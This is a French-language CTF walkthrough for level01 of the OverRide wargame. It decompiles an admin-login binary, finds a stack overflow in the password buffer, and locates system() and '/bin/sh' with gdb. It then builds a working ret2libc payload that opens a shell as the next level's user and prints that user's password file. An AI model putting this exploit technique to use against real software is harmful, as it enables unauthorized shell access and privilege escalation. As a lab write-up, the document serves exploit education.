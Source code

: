 # **Level 01**

Premiere etape, comprendre le programme, on va donc decompiler l'executable dans un premier temps.

```
int verify_user_name(void)

{
  int iVar1;
  byte *pbVar2;
  byte *pbVar3;
  undefined uVar4;
  undefined uVar5;
  byte bVar6;
  
  bVar6 = 0;
  uVar4 = &stack0xfffffff4 < (undefined *)0x10;
  uVar5 = &stack0x00000000 == (undefined *)0x1c;
  puts("verifying username....\n");
  iVar1 = 7;
  pbVar2 = &a_user_name;
  pbVar3 = (byte *)"dat_wil";
  do {
    if (iVar1 == 0) break;
    iVar1 = iVar1 + -1;
    uVar4 = *pbVar2 < *pbVar3;
    uVar5 = *pbVar2 == *pbVar3;
    pbVar2 = pbVar2 + (uint)bVar6 * -2 + 1;
    pbVar3 = pbVar3 + (uint)bVar6 * -2 + 1;
  } while ((bool)uVar5);
  return (int)(char)((!(bool)uVar4 && !(bool)uVar5) - uVar4);
}



int verify_user_pass(byte *param_1)

{
  int iVar1;
  byte *pbVar2;
  undefined in_CF;
  undefined in_ZF;
  
  iVar1 = 5;
  pbVar2 = (byte *)"admin";
  do {
    if (iVar1 == 0) break;
    iVar1 = iVar1 + -1;
    in_CF = *param_1 < *pbVar2;
    in_ZF = *param_1 == *pbVar2;
    param_1 = param_1 + 1;
    pbVar2 = pbVar2 + 1;
  } while ((bool)in_ZF);
  return (int)(char)((!(bool)in_CF && !(bool)in_ZF) - in_CF);
}



undefined4 main(void)

{
  undefined4 uVar1;
  int iVar2;
  undefined4 *puVar3;
  undefined4 local_54 [16];
  int local_14;
  
  puVar3 = local_54;
  for (iVar2 = 0x10; iVar2 != 0; iVar2 = iVar2 + -1) {
    *puVar3 = 0;
    puVar3 = puVar3 + 1;
  }
  local_14 = 0;
  puts("********* ADMIN LOGIN PROMPT *********");
  printf("Enter Username: ");
  fgets(&a_user_name,0x100,stdin);
  local_14 = verify_user_name();
  if (local_14 == 0) {
    puts("Enter Password: ");
    fgets((char *)local_54,100,stdin);
    local_14 = verify_user_pass(local_54);
    if ((local_14 == 0) || (local_14 != 0)) {
      puts("nope, incorrect password...\n");
      uVar1 = 1;
    }
    else {
      uVar1 = 0;
    }
  }
  else {
    puts("nope, incorrect username...\n");
    uVar1 = 1;
  }
  return uVar1;
}
```
On peut donc voir que le programme nous demande un `prompt` d'un `username` puis un prompt pour un `password`;
Testons donc le programme,
```
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: test
verifying username....

nope, incorrect username...

```
En examinant un peu mieux le code, on peut voir que le `username` attendu est `dat_wil`
```
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
test
nope, incorrect password...
```

De plus, on constate que le `buffer` de la variable contenant le `password` est de `16` et que,
si l'on remplie le buffer de `80 characteres`, on `sigsegv`
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
01234567890123456789012345678901234567890123456789012345678901234567890123456789
nope, incorrect password...

Segmentation fault (core dumped)
```
Notre objectif va donc d'utiliser la place disponible dans le buffer de password pour reecrire le return du main
Exploit -> `Ret2libc`

> Pour une rapide explication ce au'on appelle `ret2libc` est un exploit utilisant `eip` pour jump dans la fonction `system` avec pour argument la commande voulu, ici `/bin/sh`
> Pour plus d'info [How to perform a ret2libc attack](https://shellblade.net/files/docs/ret2libc.pdf)

Pour ce faire nous allons devoir trouver l'`adresse` de la `fonction system` et une adresse d'une `string` contenant `/bin/sh`
```
level01@OverRide:~$ gdb ./level01 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80484d5
(gdb) run
Starting program: /home/users/level01/level01 

Breakpoint 1, 0x080484d5 in main ()
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```
Adresse de system -> `0xf7e6aed0`

```
(gdb) find __libc_start_main, +9999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
Adresse de "bin/sh" -> `0xf7f897ec`

Nous pouvons donc maintenant creer notre payload:

premier prompt -> [dat_wil]

second prompt -> [80 characteres] [addr system] [4 characteres] [addr "/bin/sh"]

`(python -c "print 'dat_wil'"; python -c "print '\x90'*80 + '\xd0\xae\xe6\xf7' + 'AAAA'+ '\xec\x97\xf8\xf7'") > /var/crash/file`

```
level01@OverRide:~$ (python -c "print 'dat_wil'"; python -c "print '\x90'*80 + '\xd0\xae\xe6\xf7' + 'AAAA'+ '\xec\x97\xf8\xf7'") > /var/crash/file
level01@OverRide:~$ cat /var/crash/file - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
> ### NEXT : [Level 02](/level02/walkthrough.md)
